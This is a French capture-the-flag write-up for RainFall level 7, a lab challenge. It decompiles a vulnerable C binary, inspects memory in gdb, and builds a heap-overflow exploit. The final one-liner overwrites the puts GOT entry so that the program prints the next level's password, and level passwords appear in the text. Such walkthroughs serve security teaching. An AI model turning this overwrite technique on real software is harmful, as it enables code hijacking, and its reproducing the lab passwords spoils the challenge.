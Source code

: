 # Level 7

pass : `f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d`

## Source :

```c
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <time.h>

char c[80];  // 0x08049960 / size : 0x50

void	m() {  // 0x080484f4
	printf("%s - %d", c, time(0));
}

int		main(int ac, char **av) {  // 0x08048521
	char **b;  // esp+0x18
	char **a;  // esp+0x1c

	a = malloc(2 * sizeof(char *));
	a[0] = 1;
	a[1] = malloc(8);

	b = malloc(2 * sizeof(char *));
	b[0] = 2;
	b[1] = malloc(8);

	strcpy(a[1], av[1]);
	strcpy(b[1], av[2]);

	fgets(c, 68, fopen("/home/user/level8/.pass", "r"));  // 0x44

	// 0x8048703 on .rodata segment
	puts("~~");

	return (0);
}
```

## Recherche :

> On veut remplacer l'appel de `puts("~~")` par `m()`

Pour faire ça, on va exploiter les deux appels à `strcpy`.
En effet, `strcpy` copy à l'adresse indiqué par le premier élément la chaine contenue dans le second élément.

Ce qu'on veut donc, c'est `&puts` devienne `&m`.

- `m` se trouve à l'adresse **`0x080484f4`**

```gdb
(gdb) disas puts
Dump of assembler code for function puts@plt:
   0x08048400 <+0>:     jmp    *0x8049928
   0x08048406 <+6>:     push   $0x28
   0x0804840b <+11>:    jmp    0x80483a0
End of assembler dump.
```

- pour `puts`, c'est un peu plus délicat, dans un `jmp` est fait, on va donc choisir directement l'adresse du `jmp`, soit **`0x08049928`**.



Ça, c'est ce que doit faire le second `strcpy`.
`strcpy(b[1], av[2]);`
On le remplacera par :

- `b[1]` = `0x08049928` (`puts`)
- `av[2]` = `0x080484f4` (`m`)



Le premier lui fait actuellement :
`strcpy(a[1], av[1]);`
On veut faire en sorte d'écrire dans `b[1]`, et y mettre la valeure de l'adresse de `puts`.

Or `a` et `b` sont contingent en mémoire, donc si on écrit suffisement loin dans `a`, on se mettra à écrire dans `b`.


```gdb
(gdb) r ABCDEFGHIJKLMNOPQRSTUVWXYZ abcd
Starting program: /home/user/level7/level7 ABCDEFGHIJKLMNOPQRSTUVWXYZ abcd

Breakpoint 1, 0x080485a0 in main ()
(gdb) ni
0x080485a5 in main ()
(gdb) x/x $esp+0x18
0xbffff708:     0x0804a028
(gdb) x/2x 0x0804a028
0x804a028:      0x54535251      0x58575655
```

Ici, on voit bien que le premier agument `ABCDEFGHIJKLMNOPQRSTUVWXYZ` a été écrit dans `b` (`$esp+0x18`), et du coup à partir de la lettre 'U' (`0x55`), 20<sup>ème</sup> lettre dans `b[1]`.

Parfait !
On a tout pour notre script :
`./level7 $(python -c 'print "A"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')`

## Exploit :

```bash
level7@RainFall:~$ ./level7 $(python -c 'print "A"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1592469485
```
